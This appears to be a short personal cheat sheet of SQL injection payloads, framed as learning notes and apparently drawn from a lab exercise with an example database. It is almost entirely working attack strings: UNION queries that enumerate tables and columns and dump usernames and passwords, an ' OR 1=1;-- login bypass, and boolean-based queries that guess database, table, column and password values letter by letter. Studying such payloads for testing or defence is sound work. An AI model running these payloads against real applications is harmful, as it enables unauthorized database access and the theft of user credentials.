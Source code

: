 # Learning SQL Injection

Just taking some notes about different SQL Injections.

#### This will display the tables
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
#### This will display the columns from the selected table
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--
```
#### This will display the username and password
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users

Ex.
admin:p4ssword
martin:pa$$word
jim:work123
```
#### This will bypass the login form and will return true to the server
```
' OR 1=1;--

Ex.
username: ' OR 1=1;--
password: ' OR 1=1;--
```
# Boolean Based
#### This will guess for the correct database base on the first letter
```
' UNION SELECT 1,2,3 where database() like 'a%';--
' UNION SELECT 1,2,3 where database() like 'h%';--
```
#### This will guess for the correct table in the database
```
' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'h%';--

> The sqli_three is the example database
```
#### This will guess for the correct column in the table and in database
```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

> The sqli_three is the example database
> The users is the example table 
```
#### This will guess for the row or data in username column
```
' UNION SELECT 1,2,3 from users where username like 'a%
```
#### This will guess for the row or data in password column
```
' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
